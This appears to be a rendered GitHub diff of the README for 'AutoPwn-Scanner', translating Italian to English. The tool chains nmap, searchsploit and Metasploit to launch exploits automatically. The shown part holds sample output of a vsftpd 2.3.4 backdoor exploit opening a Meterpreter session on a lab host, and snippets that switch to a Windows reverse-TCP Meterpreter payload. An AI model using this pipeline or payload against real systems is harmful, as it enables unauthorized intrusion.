

Before and after one commit to PIXELQUADRO07/AutoPwn-Scanner, a Markdown page: README.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -269,62 +269,62 @@ La sessione viene automaticamente registrata nel database anche se non avviata d
 
 ---
 
-## Esempi di output
+## Sample Output
 
 ```
 ==============================================
-   Security Scanner Runner (C++) - Esame Lab
+   Security Scanner Runner (C++) - Lab
 ==============================================
 
-[NMAP] Avvio scansione su: 192.168.1.50
-[NMAP] Output XML -> ./results/scan_192.168.1.50.xml
-[SEARCHSPLOIT] Analisi dell'XML...
-[PYTHON-BRIDGE] Invocazione logic_mapper.py
+[NMAP] Starting scan on: 192.168.1.50
+[NMAP] XML output -> ./results/scan_192.168.1.50.xml
+[SEARCHSPLOIT] Parsing XML...
+[PYTHON-BRIDGE] Invoking logic_mapper.py
 
 ══════════════════════════════════════════════
-  LOGIC MAPPER – Avvio pipeline
+  LOGIC MAPPER – Pipeline started
 ══════════════════════════════════════════════
 
-[MONITOR] Avviato. Polling ogni 5s.
-[DB] Connesso a: ./results/scanner.db
-[PARSER] Host trovati: 1
-[MSF] Connesso a msfrpcd su 127.0.0.1:55553
+[MONITOR] Started. Polling every 5s.
+[DB] Connected to: ./results/scanner.db
+[PARSER] Hosts found: 1
+[MSF] Connected to msfrpcd at 127.0.0.1:55553
 
 [MAPPER] Host: 192.168.1.50 (metasploitable) OS: Linux 2.6.x
-  ↳ Porta 21/tcp: ftp vsftpd 2.3.4
-    → Tentativo MSF: exploits/unix/ftp/vsftpd_234_backdoor
-[MSF] Lancio: exploits/unix/ftp/vsftpd_234_backdoor → 192.168.1.50:21
+  ↳ Port 21/tcp: ftp vsftpd 2.3.4
+    → Attempting MSF: exploits/unix/ftp/vsftpd_234_backdoor
+[MSF] Launching: exploits/unix/ftp/vsftpd_234_backdoor → 192.168.1.50:21
 
 ★  METERPRETER SESSION  [ID: 1 | 192.168.1.50]  ★
 
-[MAPPER] Attendo 10s per sessioni ritardate...
-[MONITOR] Arrestato.
-[MAPPER] Pipeline completata. Dati salvati nel DB.
+[MAPPER] Waiting 10s for delayed sessions...
+[MONITOR] Stopped.
+[MAPPER] Pipeline complete. Data saved to DB.
 ```
 
 ---
 
-## Estendere il tool
+## Extending the Tool
 
-**Flag Nmap personalizzati** — in `NmapRunner::run()` in `scanner_runner.cpp`:
+**Custom Nmap flags** — edit `NmapRunner::run()` in `scanner_runner.cpp`:
 ```cpp
-// Scansione completa tutte le porte con OS detection
+// Full port scan with OS detection
 "nmap -A -p- --script=vulners -oX " + output_xml + " " + target
 ```
 
-**Payload Metasploit diverso** — in `MetasploitManager.run_exploit()`:
+**Different Metasploit payload** — edit `MetasploitManager.run_exploit()`:
 ```python
-# Da generico a Meterpreter stageless Windows x64
+# Switch to a stageless Windows x64 Meterpreter
 payload = self.client.modules.use("payload", "windows/x64/meterpreter_reverse_tcp")
 ```
 
-**Notifiche esterne da MeterpreterMonitor** — estendi `_notify()`:
+**External notifications from MeterpreterMonitor** — extend `_notify()`:
 ```python
 import requests
-requests.post("https://hooks.slack.com/...", json={"text": f"Sessione aperta su {rhost}!"})
+requests.post("https://hooks.slack.com/...", json={"text": f"Session opened on {rhost}!"})
 ```
 
-**Export report in JSON**:
+**Export report as JSON**:
 ```python
-# In db_report.py, sostituisci print() con json.dump() per output machine-readable
+# In db_report.py, replace print() with json.dump() for machine-readable output
 ```
````
Also changed, not shown: other parts of README.md (+85 -85 lines).
